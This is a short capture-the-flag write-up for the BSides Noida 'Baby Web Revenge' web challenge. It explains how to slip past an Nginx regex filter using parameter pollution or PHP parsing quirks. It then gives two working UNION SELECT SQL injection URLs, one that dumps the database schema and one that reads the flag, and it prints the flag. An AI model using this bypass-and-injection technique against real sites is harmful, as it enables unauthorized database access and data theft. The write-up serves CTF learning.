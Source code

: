 # BSides Noida CTF - Baby Web Revenge (24 solves)

> So close yet so far

**Category**: web

**Given**: 
- [baby_web_revenge.zip](handouts/baby_web_revenge.zip): Source code & web server configuration for backend

**Requirements**: N/A

**Solution Files**: N/A

**TL;DR**: Bypass Nginx regex filter by either [parameter pollution](https://securityintelligence.com/posts/how-to-prevent-http-parameter-pollution) or [exploiting PHP parser](https://www.php.net/variables.external), then `UNION SELECT` flag table.

### Overview
TODO

### Exploit

Get table strucures:
```
http://ctf.babywebrevenge.bsidesnoida.in/?chall_id=1&chall_id=0+UNION+SELECT+sql,2,3,4,5,1+FROM+sqlite_master
```
![Schema page](images/table-schemas.png)

Get flag:
```
http://ctf.babywebrevenge.bsidesnoida.in/?chall_id=1&chall_id=2+UNION+SELECT+1,2,3,4,5,flag+FROM+therealflags
```
![Flag page](images/flag.png)

**Flag**: BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4_fr0m_4n_1nt3nd3d_s01ut10nxD}